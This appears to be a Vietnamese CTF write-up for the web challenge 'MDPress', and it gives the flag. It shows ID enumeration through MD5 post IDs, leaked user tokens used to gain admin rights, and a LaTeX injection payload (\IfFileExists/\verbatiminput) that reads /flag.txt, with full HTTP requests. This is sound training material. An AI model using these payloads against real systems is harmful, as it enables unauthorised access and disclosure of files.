










# CSCV2026 — CTF Writeup

**Challenge:** MDPress  
**Category:** Web  
**Flag:** `CSCV2026{md_to_pdf_l4tex_inj3ction_r3ads_4ny_file}`

---

## Tổng quan

1. **Privilege Escalation** — lấy token của admin thông qua ID enumeration
2. **LaTeX Injection** — đọc file /flag.txt thông qua latex command

---

## Reconnaissance

Đăng kí bằng tài khoản `kanie05` / `12345`. Giao diện hiển thị danh sách bài viết của các user khác, nhưng **không có nút đăng bài** cho user thường.



---

## Phân tích source code

Đọc mã nguồn frontend, phát hiện các endpoint liên quan đến bài viết:

```
GET    /api/discussions/          — lấy danh sách bài
GET    /api/discussions/<id>      — xem bài cụ thể
POST   /api/discussions           — đăng bài mới  ← chỉ admin
PUT    /api/discussions/<id>      — sửa bài       ← chỉ admin
DELETE /api/discussions/<id>      — xóa bài       ← chỉ admin
POST   /api/discussions/<id>/compile-latex  — xuất PDF

' những endpoint đều phải test thì mới xác định endpoint nào chỉ có admin mới được phép '
```

> **Lưu ý:** ID của mỗi bài viết được **hash MD5** từ số thứ tự (integer).



Ngoài ra, có endpoint cập nhật profile user với ba trường: `bio`, `displayName`, `token`.

```
PUT /api/users/me/profile
```



---

## Bước 1 — Xác nhận phân quyền

Thử `POST /api/discussions` với JWT của `kanie05`:

```http
POST /api/discussions HTTP/1.1
Host: 113.20.103.55:5001
Authorization: Bearer <JWT_kanie05>
Content-Type: application/json

{"title": "temporary flag probe", "content": "hello"}
```

Response trả về `403 FORBIDDEN`:

```json
{"error": "admin only"}
```

> Target xác định: cần leo thang lên quyền **admin**.



---

## Bước 2 — Leak token qua User Enumeration

**Quan sát:** ID bài viết = `md5(<số thứ tự>)`

```
md5(1) = c4ca4238-a0b9-2382-0dcc-509a6f75849b
```

Gửi request:

```
GET /api/discussions/c4ca4238-a0b9-2382-0dcc-509a6f75849b
```

Response chứa `sig` — đây chính là **user ID** của tác giả bài viết. Từ đó gọi tiếp:

```
GET /api/users/<sig_of_alice>
```

Response của alice:

```json
{
  "bio": "ML researcher and open-source contributor.",
  "displayName": "Alice Chen",
  "role": "user",
  "token": "fd1a01f3728eeac8",
  "uid": "u_1327fd465e48a45124e0e20c",
  "username": "alice"
}
```

> **Phát hiện:** Response trả về cả trường `token` của user — thông tin nhạy cảm bị lộ.



---

## Bước 3 — Fuzzing tìm bài viết của admin

Không biết SID của admin được tạo từ đâu, tiến hành **fuzz từ 1 đến 3000**:

```
for i in range(1, 3001):
    id = md5(str(i))
    GET /api/discussions/<id>  → lấy sig
    GET /api/users/<sig>       → kiểm tra role == "admin"
```

Tìm thấy bài viết `id=1337` thuộc về admin:

```json
{
  "author": "admin",
  "title": "Welcome to MDPress",
  "sig": "u_7d4f9a2e6b1c8035f4a9d2e1"
}
```



---

## Bước 4 — Lấy token của admin

```
GET /api/users/u_7d4f9a2e6b1c8035f4a9d2e1
```

Response:




---

## Bước 5 — Privilege Escalation

Dùng token `MD-PROMOTE-7F3A91` để cập nhật profile của `kanie05`:

> `role` đã chuyển thành **`admin`**.



---

## Bước 6 — LaTeX Injection

Với quyền admin, endpoint `POST /api/discussions` và `POST /api/discussions/<id>/compile-latex` đã mở. Lab đề cập đến việc render PDF qua LaTeX → vector tấn công: **LaTeX Injection**.

> **LaTeX Injection:** Input của user được nhúng trực tiếp vào file `.tex` mà không sanitize, cho phép chèn các LaTeX command tùy ý — bao gồm lệnh đọc file hệ thống.

**Probe thử:** gửi `\textbf{LATEX-TEST}` để xác nhận command được thực thi.

```http
POST /api/discussions HTTP/1.1
Authorization: Bearer <JWT_admin>
Content-Type: application/json

{"title": "latex probe", "content": "\\textbf{LATEX-TEST}"}
```

PDF export hiển thị **LATEX-TEST** in đậm — xác nhận injection thành công.



---

## Bước 7 — Đọc `/flag.txt`

Dùng `\IfFileExists` kết hợp `\verbatiminput` để đọc nội dung file tùy ý:

```http
POST /api/discussions HTTP/1.1
Host: 113.20.103.55:5001
Authorization: Bearer <JWT_admin>
Content-Type: application/json

{
  "title": "temporary flag probe",
  "content": "\\IfFileExists{/flag.txt}{\\verbatiminput{/flag.txt}}{}"
}
```

Sau đó gọi endpoint compile-latex để xuất PDF và đọc output.



---

## Flag

```
CSCV2026{md_to_pdf_l4tex_inj3ction_r3ads_4ny_file}
```

